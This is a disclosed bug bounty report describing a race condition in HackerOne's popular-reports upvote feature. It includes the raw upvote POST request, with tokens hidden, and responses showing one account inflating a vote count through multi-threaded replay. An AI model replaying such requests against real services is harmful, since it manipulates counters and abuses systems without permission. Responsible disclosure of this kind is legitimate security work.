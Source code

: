 # Race Conditions in Popular reports feature.

## Report Details
- **Report ID**: 146845
- **URL**: https://hackerone.com/reports/146845
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-23T17:13:45.025Z
- **Disclosed**: 2016-08-03T15:57:35.170Z

## Reporter
- **Username**: shmoo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
This vulnerability allows you to explore a race condition bug on a new feature of hackerone, the popular reports..

To reproduce this bug, you need to intercept the POST request that trigger the "upvote" action.

After having this POST request, i created a script that repeats that POST with multiple threads.

this allows me to, with my single account, favorite multiple times a single tweet increasing its counter.

The post requests repeat was: 
POST https://hackerone.com/reports/127158/votes HTTP/1.1
Host: hackerone.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-CSRF-Token: <hidden>
X-Requested-With: XMLHttpRequest
Referer: https://hackerone.com/hacktivity/popular
Cookie: __cfduid=d0b8800c716cf2aa744ddebd0ef2c92e21466701022; session=<hidden>
Connection: close
Cache-Control: max-age=0
Content-Length: 0

In this case,  running my script, returned the response:
{"vote_id":865,"vote_count":48}
{"vote_id":866,"vote_count":49}


Probably if my connection was faster, I would be able to increase even more the counter.

## Attachments
No attachments
